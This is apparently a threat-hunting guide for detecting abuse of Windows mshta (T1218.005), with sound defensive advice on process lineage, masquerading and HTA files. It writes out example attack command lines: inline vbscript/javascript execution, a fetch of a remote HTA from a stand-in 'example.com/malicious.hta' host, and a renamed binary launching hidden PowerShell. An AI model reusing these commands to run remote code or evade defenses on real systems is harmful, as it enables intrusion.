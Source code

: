 ```yaml
---
title: mshta Hunt
category: Defense Evasion
tags: [TECHNIQUE T1218.005, System Binary Proxy Execution, HTA, windows]
---
```

Mshta is attractive to adversaries both in the early and latter stages of an infection because it enables them to proxy the execution of arbitrary code through a trusted utility.
## Process and command-line monitoring
## Monitor process execution and command-line parameters for suspicious use of Mshta
Look for Mshta being executed with command lines containing protocol handlers like javascript, vbscript, about, etc.

**Example:**

```mshta vbscript:CreateObject("WScript.Shell").Run("notepad.exe")(window.close)```

Collect parent-child process relationships and identify any suspicious process lineage patterns involving Mshta.

**Example:**

Parent process: winword.exe

Child process: mshta.exe

## Monitor process metadata
Internal process name: mshta.exe
	Apparent filename: calc.exe

## File monitoring and network connections
Monitor file activity for the presence of Mshta-related files, such as HTA files (ending with .hta extension).
Look for Mshta executing remotely hosted HTA content via URIs or UNC paths.
	Command line: mshta http://example.com/malicious.hta

## Suspicious process ancestry
For example, an adversary conducting a phishing attack might embed a macro in a Microsoft Word document that executes a malicious HTA file.

## Parent process: winword.exe
Child process: mshta.exe

## Mshta masquerading
```C:\Test\notepad.exe "javascript:a=new ActiveXObject("WScript.Shell");a.Run("powershell.``` 

```exe%20-nop%20-Command%20Write-Host%20f83a289e-8218-459c-9ddb-ccd3b72c732a;%20Start-Sleep%20-Seconds%202;%20exit",0,true);close();"```

## Network connections and HTA content
File extension: .pdf
MIME type: application/hta

## False positive mitigation
Fine-tune detection logic to account for legitimate and expected use of Mshta in your environment.

## Reference
https://redcanary.com/threat-detection-report/techniques/mshta/#:~:text=Suspicious%20process%20ancestry,executes%20a%20malicious%20HTA%20file